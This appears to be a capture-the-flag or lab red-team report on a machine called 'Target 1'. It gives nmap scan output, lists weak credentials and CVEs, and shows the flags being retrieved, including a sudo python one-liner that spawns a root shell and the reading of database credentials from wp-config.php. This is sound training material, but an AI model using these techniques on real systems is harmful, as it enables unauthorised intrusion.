




# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

`nmap` scan results for each machine reveal the below services and OS details:  
  *omitted output from machines on the network that are not the "Target 1"*


```bash
$ nmap -sV -A 192.168.1.90/24

# Nmap 7.80 scan initiated Sat Mar 27 10:00:43 2021 as: nmap -sV -A -oN nmap_out.txt 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00082s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42312/tcp   status
|   100024  1          49348/tcp6  status
|   100024  1          54108/udp   status
|_  100024  1          57255/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h39m59s, deviation: 6h21m02s, median: 0s
|_nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-03-28T04:00:57+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-27T17:00:57
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.82 ms 192.168.1.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 27 10:00:57 2021 -- 1 IP address (1 host up) scanned in 13.79 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH v6.7p1 22/tcp
  - Apache v2.4.10 80/tcp
  - Samba v4.2.14 445/tcp, 139/tcp


The following vulnerabilities were identified on each target:
- Target 1
  - Misconfiguration of `steven` user to run `python` as `sudo`
  - Misconfiguration of `michael` user with password the same as his name
  - OpenSSH configured with weak authentication, password only. 
  - 22/tcp was not filtered, accessible publicly. 
  - CVE-2017-7494 - Samba exec code vulnerability - 10.0 severity
  - CVE-2017-3167 - Apache authentication bypass vulnerability - 7.5 severity
  - Misconfiguration of Website with sensitive data publicly available in 
			source code.


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d  
      - **Exploit Used**  
         - Sensitive data publicly available  
         - Used the web browser's console to view source code   
         - Initially this flag was found with `grep` once logged in via SSH as any user
         - `grep -ER flag /var/www/html/`  




  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c  
      - **Exploit Used**  
          - Weak SSH authentication  
          - Once connected via SSH as any user, the flag could be found with
              a search
          - `find / -type f -iname "flag?.txt" -exec cat {} \; 2>/dev/null`  



  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2  
      - **Exploit Used**  
          - Misconfiguration of `steven` user to run `python` with root permissions  
  	     	- `sudo python -c 'import os; os.system("/bin/sh")'`  
              - Once the permissions were escalated, `wp-config.php` file was readable, file includes the SQL database login information in clear text.   
              - With the login information for the database, it could be queried for flags 3 and 4  

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce  
      - **Exploit Used**  
      - *Same method as flag 3, in the same database*  



